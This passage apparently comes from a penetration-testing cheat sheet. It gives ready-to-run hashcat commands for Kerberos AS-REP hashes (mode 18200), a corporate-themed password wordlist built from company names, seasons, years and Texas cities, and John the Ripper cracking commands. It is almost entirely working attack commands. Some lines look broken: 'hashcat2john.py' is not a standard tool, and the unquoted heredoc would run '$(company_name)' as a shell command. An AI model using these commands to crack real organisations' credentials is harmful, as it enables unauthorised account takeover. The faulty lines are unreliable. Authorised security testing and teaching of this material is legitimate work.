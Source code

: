 #### Advanced Hashcat Strategies
```bash
# Multi-GPU acceleration
hashcat -m 18200 hashes.txt rockyou.txt -O -w 4

# Custom character sets
hashcat -m 18200 hashes.txt -a 3 -1 ?l?u?d CompanyName?1?1?1?1

# Incremental attack with length progression
hashcat -m 18200 hashes.txt -a 3 -i --increment-min=6 --increment-max=12 ?a?a?a?a?a?a

# Resume interrupted sessions
hashcat -m 18200 hashes.txt rockyou.txt --restore
```

#### Optimized Wordlists for Corporate Environments
```bash
# Company-specific wordlist generation
# Include company name, common years, seasons
cat > company_wordlist.txt << EOF
CompanyName2024
CompanyName2023
Company123
Company!
Spring2024
Summer2024
Fall2024
Winter2024
Password123
Welcome123
$(company_name)123
EOF

# Location-based passwords
echo "Dallas2024" >> wordlist.txt
echo "Houston123" >> wordlist.txt
echo "Texas2024" >> wordlist.txt
```

### John the Ripper Alternative

#### Basic John Commands
```bash
# Convert hashcat format to john format
hashcat2john.py hashes.txt > john_hashes.txt

# Dictionary attack
john --wordlist=rockyou.txt john_hashes.txt

# Rule-based cracking
john --wordlist=rockyou.txt --rules=Wordlist john_hashes.txt

# Show cracked passwords
john --show john_hashes.txt
```
